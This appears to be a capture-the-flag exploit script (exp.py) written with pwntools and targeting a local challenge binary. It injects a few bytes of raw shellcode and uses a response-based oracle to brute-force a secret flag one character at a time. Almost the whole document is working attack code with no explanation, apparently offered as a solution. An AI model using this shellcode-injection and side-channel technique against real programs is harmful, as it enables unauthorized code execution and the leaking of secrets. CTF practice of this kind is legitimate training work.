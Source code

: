 ```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年06月12日 星期三 08时41分38秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./pwn')

#context.log_level = 'debug'

context.terminal = ['terminator' , '-x' , 'sh' , '-c']
context.arch = 'amd64'


#gdb.attach(io,'''
#b *0x400d88
#''')
# range(33 ,127)
def check(io,x,y):
	#io = process('./pwn')
	io.sendlineafter('uts your index?\n',str(y))

	#code = '''
	#push r9
	#pop rax
	#ret
	#'''
	#code = asm(code)
	code = "\x41\x51\x58\xc3"
	#gdb.attach(io,'''
	#b *0x400EA5 
	#''')

	io.sendafter('code:\n',code)
	io.sendlineafter('name size:\n',str(256))
	io.sendafter('your name:\n','a'*(x-21))
	io.recv()
	io.send('\n')
	
	if 'bye' in io.recv():
		return chr(x)
	else:
		return 0

flag = ''
f=''
x=32
y=0
while True:
	x = x + 1
	io = process('./pwn')
	f = check(io,x,y)
	if f:
		flag += f
		y += 1
		x = 32
	print flag
	io.close()
```